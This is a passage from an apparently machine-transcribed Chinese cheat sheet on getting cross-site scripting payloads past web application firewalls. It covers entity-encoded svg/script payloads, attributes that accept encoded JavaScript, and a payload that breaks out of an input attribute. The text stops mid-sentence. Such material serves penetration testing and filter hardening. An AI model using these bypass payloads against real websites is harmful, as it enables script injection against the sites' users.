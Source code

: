 #### 当= ( ) ; :被过滤时

```
<svg><script>alert&#40/1/&#41</script> // 通杀所有浏览器 
```

opera 中可以不闭合

```
<svg><script>alert&#40 1&#41 // Opera 可查 
```

### 实体编码

很多情况下 WAF 会实体编码用户的输入数据，

javascript 是一个很灵活的语言，可以使用很多编码，比如十六进制，Unicode 和 HTML。但是也对这些编码可以用在哪个位置有规定：

属性：

```
href=
action=
formaction=
location=
on*=
name=
background=
poster=
src=
code= 
```

支持的编码方式：HTML，八进制，十进制，十六进制和 Unicode

属性：

```
data= 
```

支持的编码：base64

### 基于上下文的过滤

WAF 最大的问题，在于不知道输出的位置的上下文，导致根据具体环境可以绕过。

#### 输入在属性里

```
<input value="XSStest" type=text> 
```

可控位置为 XSStest，可以使用

```
"><img src=x onerror=prompt(0);> 
```

如果`< >`被过滤的话可以换成

